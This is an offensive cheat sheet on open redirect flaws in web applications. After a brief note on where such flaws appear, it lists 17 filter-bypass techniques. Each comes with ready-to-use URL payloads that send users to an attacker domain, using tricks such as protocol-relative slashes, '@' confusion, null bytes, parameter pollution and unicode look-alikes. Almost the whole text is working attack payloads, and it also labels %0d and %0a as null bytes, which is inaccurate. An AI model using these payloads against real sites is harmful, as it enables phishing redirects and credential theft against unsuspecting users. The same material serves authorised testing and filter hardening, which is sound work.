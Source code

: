 # Open Redirect

### Where to find



* Sometimes it can be found in login / register / logout pages
* Checking the javascript source code

### How to exploit



1. Try change the domain

```
/?redir=evil.com
```

2. Using a whitelisted domain or keyword

```
/?redir=target.com.evil.com
```

3. Using `//` to bypass `http` blacklisted keyword

```
/?redir=//evil.com
```

4. Using `https:` to bypass `//` blacklisted keyword

```
/?redir=https:evil.com
```

5. Using `\\` to bypass `//` blacklisted keyword

```
/?redir=\\evil.com
```

6. Using `\/\/` to bypass `//` blacklisted keyword

```
/?redir=\/\/evil.com/
/?redir=/\/evil.com/
```

7. Using `%E3%80%82` to bypass `.` blacklisted character

```
/?redir=evil。com
/?redir=evil%E3%80%82com
```

8. Using null byte `%00` to bypass blacklist filter

```
/?redir=//evil%00.com
```

9. Using parameter pollution

```
/?next=target.com&next=evil.com
```

10. Using `@` or `%40` character, browser will redirect to anything after the `@`

```
/?redir=target.com@evil.com
/?redir=target.com%40evil.com
```

11. Creating folder as their domain

```
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```

12. Using `?` characted, browser will translate it to `/?`

```
/?redir=target.com?evil.com
```

13. Bypass the filter if it only checks for domain name using `%23`

```
/?redir=target.com%23evil.com
```

14. Host/Split Unicode Normalization

```
https://evil.c℀.example.com
```

15. Using parsing

```
http://ⓔⓥⓘⓛ.ⓒⓞⓜ
```

16. Using `°` symbol to bypass

```
/?redir=target.com/°evil.com
```

17. Bypass the filter if it only allows yoou to control the path using a nullbyte `%0d` or `%0a`

```
/?redir=/%0d/evil.com
```

\
